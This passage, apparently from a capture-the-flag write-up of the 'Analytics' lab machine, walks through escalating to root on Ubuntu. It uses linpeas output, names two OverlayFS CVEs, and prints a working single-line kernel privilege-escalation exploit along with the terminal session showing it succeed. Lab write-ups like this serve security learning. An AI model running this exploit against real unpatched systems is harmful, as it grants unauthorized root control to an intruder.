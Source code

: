 ```bash
Last login: Fri Dec 15 03:36:25 2023 from 10.10.16.27
metalytics@analytics:~$ cat user.txt 
fff505f17161.................. (ur turn!)
metalytics@analytics:~$
```

## Privlege Escalation to Root

I ran the usual sudo -l command to see what I could run as root but found I did not have sudo privs as metalytics, so I went and uploaded linpeas again. Looking at the linpeas results, one thing of interest that jumped out was that the box was running a vulberable version of Ubuntu.

```bash
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 6.2.0-25-generic (buildd@lcy02-amd64-044) (x86_64-linux-gnu-gcc-11 (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2
Distributor ID:	Ubuntu
Description:	Ubuntu 22.04.3 LTS
Release:	22.04
Codename:	jammy

metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

Looking for CVEs online for this version returned two of interest: CVE-2023–2640 and CVE-2023–32629. This link [here](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/) describes the vulnerabilities to achieve priv esc.

The writeup showed a command that you could run to escalate your privleges to root. *This is all a single command*

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

Running the above command actually allows us to get root access, and we can read the root flag!

```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
root@analytics:~# cat /root/root.txt 
2d3d8fe3dd93da0..........
root@analytics:~# 
```

See you in the next one!